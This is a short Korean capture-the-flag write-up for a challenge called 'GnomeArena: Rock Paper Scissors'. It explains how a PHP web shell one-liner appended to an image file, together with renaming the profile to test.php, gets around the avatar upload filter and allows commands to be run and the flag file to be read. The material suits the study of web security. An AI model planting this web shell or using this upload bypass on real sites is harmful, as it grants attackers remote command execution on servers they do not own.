 # GnomeArena: Rock Paper Scissors

![Alt text](001.png)

가위 바위 보 게임이 있다.

script 부분을 봣지만 여러번 승리한다고 바뀌는건 없는거 같다.

![Alt text](002.png)

settings 부분에는 이름을 바꾸는 기능과 프로필 사진을 바꾸는 기능이 존재한다.

그림파일을 업로드하는 기능에는 그림파일만 올라가게 되어있다.

그림파일 뒤에 <?php system($_GET['cmd']); ?>를 붙여서 명령어를 실행할 수 있게만들어 업로드한다.

![Alt text](003.png)

그림파일 이름은 현재 나의 이름으로 avatars 폴더 밑에 업로드 된다. 때문에 이름을 test.php로 변경한뒤 그림파일을 업로드한다.

![Alt text](005.png)

![Alt text](004.png)

test.php로 이동하여 cmd 인자를 입력해준다. 현재 디렉토리에는 flag 같은 것이 안보인다. / 디렉토리를 살펴보니 flag 파일이 보인다.

cat 명령으로 flag 파일을 읽는다. 

![Alt text](006.png)
